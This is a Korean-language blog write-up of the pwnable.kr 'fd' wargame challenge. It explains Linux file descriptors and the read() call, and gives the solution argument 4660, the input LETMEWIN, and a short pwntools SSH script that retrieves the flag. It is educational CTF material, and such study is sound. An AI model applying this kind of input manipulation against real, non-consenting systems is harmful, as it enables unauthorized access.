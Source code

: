 ```yaml
---
layout: post
title: Pwnable | pwnable.kr 1번 FD
subtitle: FD 문제 풀이
categories: Pwnable
tags: [Pwnable, pwnable.kr, Pentest]
---
```


**본 문제는 pwnable.kr를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://pwnable.kr/play.php">pwnable.kr</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178695660-0a014bc2-aa84-491e-bb99-3f3f7d3ac3bf.png" width = 400>
</p>

**FD**를 클릭하시면 아래와 같이 나올텐데 리눅스 환경에서는 `ssh fd@pwnabler.kr -p 2222`로 접속하고 패스워드는 **guest**로 접속하시면 됩니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387122-edf97741-8f33-4c74-9659-4e170ccfb462.png">
</p>

* 접속하면 위와 같은 내용이 나올 겁니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387172-e0cce2c7-6a3b-4d97-af79-3da6300ffe2f.png" width = 420>
</p>

* flag를 보면 읽을 권한이 없다. **fd.c** 파일을 분석해보고, ROOT 권한을 탈취하여 flag를 읽어야 할 것으로 예상된다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

fd.c 파일의 내용이다. 프로그램을 실행할 때 인자가 있어야 본 루팅을 이행 할 것이다.

* 우리의 인자가 사용되는 부분은 `int fd = atoi( argv[1] ) - 0x1234;` , `len = read(fd, buf, 32);`이 두 부분이다.

* 그리고 우리가 읽어야 할 flag를 실행해주는 코드는 `if(!strcmp("LETMEWIN\n", buf)`에 있다.

우선 **read()**는 인자가 사용되는 fd가 들어므로 read()함수를 알아보자.

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

**read()**함수의 원형이다.

* **int fd**
  * 읽을 파일의 파일 디스크립터

* __void *buf__
  * 읽어드린 데이터를 저장할 버퍼

* __size_t nbytes__
  * 읽어들일 데이터의 최대 길이 (buf의 길이보다 길어선 안됨)

번호  | 설명 | 파일스트림 |
:---: | :---:| :----------:|
0    | 표준 입력 |  stdin
1    | 표준 출력 |  stdout
2    | 표준 에러 |  stderr

우리가 buf에 LETMEWIN이라는 값을 넣기 위해서는 **read()**가 **표준 입력**이 되어야 하므로 `int fd = atoi( argv[1] ) - 0x1234;`에서 fd가 0이 되야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387791-b3cbaa66-847e-46e4-ae48-278c9ffadd1d.png" width = 350>
</p>

```Python
from pwn import *
p = ssh("fd","pwnable.kr",2222,"guest")
path = "/home/fd/fd"
argv = "4660"
payload = [path,argv]
s = p.run(payload)
s.sendline('LETMEWIN')
s.interactive()
```
* 위 코드처럼 Pwntools을 이용해서도 값을 전송할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179391379-b5f1f116-29b7-4b4b-b5a8-efaa64d7ee90.png" width = 350>
</p>

* 0x1234를 10진수로 변환하면 **4660**이란 숫자가 나온다. `./fd 4660`으로 실행해보면 flag 값이 나온다. 이렇게 파일 디스크립터를 알아봤다 !


